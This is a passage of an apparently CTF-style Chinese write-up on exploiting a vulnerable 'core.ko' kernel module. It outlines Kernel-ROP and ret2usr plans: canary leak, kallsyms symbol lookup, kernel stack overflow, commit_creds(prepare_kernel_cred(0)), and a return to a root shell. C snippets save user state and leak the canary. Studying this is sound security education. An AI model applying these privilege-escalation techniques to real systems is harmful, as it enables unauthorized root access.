   通过gdb执行`add-symbol-file  core.ko textaddr`加载符号。

#### 漏洞利用

* 利用思路Kernel-ROP

  * 利用`set-off`设置合适的off值，通过`read`泄漏canary。
  * 利用`/tmp/kallsyms`获取`commit_creds`和`prepare_kernel_cred`函数地址，也能内核加载基地址，确定gadgets地址。
  * 通过write向name写，布置ROPchain
  * 通过copy向内核栈溢出
  * rop执行`commit_creds(prepare_kernel_cred(0))`。
  * 返回user-land，执行`system("/bin/sh")`。

* 利用思路Ret2usr

  由于**用户进程空间不能访问内核空间，而内核则能访问用户进程空间**，并且没有开启`SMEP`和`SMAP`保护，所以上述部分ROP（获取root权限）是可以直接改为执行UserLand的代码的。

* 利用代码（ROP）

  * 保存原UserLand寄存器状态，用户后续返回UserLand

    ```c
    void save_state()
    {
        __asm__(
            ".intel_syntax noprefix;"
            "mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            ".att_syntax;"
            );
        puts("[*] Saved state");
    }
    ```

  * 泄漏canary

    ```c
    void leak_canary()
    {
    	core_setoff(0x40);
    	core_read();
    	cookie = user_read_buffer[0];
    	printf("[*] Leaked canary : 0x%lx\n", cookie);
    	return ;
    }
    ```

  * 内核态切换到用户态

    `swapgs`切换到用户态GS，`iretq`回复用户态栈帧。

  * 使用`Ropper`寻找ROP gadgets。

  * 通过`/tmp/kallsyms`找符号信息，计算内核加载基地址
